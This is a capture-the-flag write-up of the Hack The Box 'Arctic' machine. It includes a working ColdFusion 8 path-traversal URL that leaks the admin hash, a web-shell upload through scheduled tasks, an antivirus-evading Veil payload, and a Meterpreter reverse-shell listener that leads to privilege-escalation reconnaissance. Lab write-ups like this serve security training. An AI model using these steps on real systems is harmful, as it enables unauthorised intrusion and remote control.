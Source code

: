 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID   PPID  Name                     Arch  Session  User          Path
 <br>---   ----  ----                     ----  -------  ----          ----
 <br>0     0     [System Process]                                      
 <br>4     0     System                                                
 <br>236   4     smss.exe                                              
 <br>272   484   svchost.exe                                           
 <br>324   316   csrss.exe                                             
 <br>336   1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 <br>368   316   wininit.exe                                           
 <br>388   376   csrss.exe                                             
 <br>440   376   winlogon.exe                                          
 <br>484   368   services.exe                                          
 <br>492   368   lsass.exe                                             
 <br>500   368   lsm.exe                                               
 <br>600   484   svchost.exe                                           
 <br>672   484   svchost.exe                                           
 <br>748   440   LogonUI.exe                                           
 <br>756   484   svchost.exe                                           
 <br>796   484   svchost.exe                                           
 <br>844   484   svchost.exe                                           
 <br>892   484   svchost.exe                                           
 <br>932   484   svchost.exe                                           
 <br>944   324   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 <br>952   484   spoolsv.exe                                           
 <br>1004  324   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 <br>1036  484   CF8DotNetsvc.exe                                      
 <br>1080  1036  JNBDotNetSide.exe                                     
 <br>1088  324   conhost.exe                                           
 <br>1124  484   dllhost.exe                                           
 <br>1140  484   jrunsvc.exe              x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168  1140  jrun.exe                 x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176  324   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 <br>1184  484   swagent.exe                                           
 <br>1220  484   swstrtr.exe                                           
 <br>1228  1220  swsoc.exe                                             
 <br>1236  324   conhost.exe                                           
 <br>1240  600   WmiPrvSE.exe                                          
 <br>1304  484   k2admin.exe                                           
 <br>1364  324   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 <br>1436  484   svchost.exe                                           
 <br>1480  484   VGAuthService.exe                                     
 <br>1736  484   vmtoolsd.exe                                          
 <br>1748  3180  powershell.exe           x86   0        ARCTIC\tolis  C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760  484   ManagementAgentHost.exe                               
 <br>2052  1304  k2server.exe                                          
 <br>2060  324   conhost.exe                                           
 <br>2128  1304  k2index.exe                                           
 <br>2144  324   conhost.exe                                           
 <br>2320  1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 <br>2892  796   taskeng.exe                                           
 <br>2920  324   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 <br>3032  484   svchost.exe                                           
 <br>3172  484   msdtc.exe                                             
 <br>3180  1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 <br>3320  2892  EKieCvWfF.exe                                         
 <br>3356  336   powershell.exe           x86   0        ARCTIC\tolis  C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>3664  1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe</p>

<p>meterpreter > migrate 2320
<br><font color="RoyalBlue">[*]</font> Migrating from 3356 to 2320...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x64/windows
<br>meterpreter ></p>
</div>
</font>
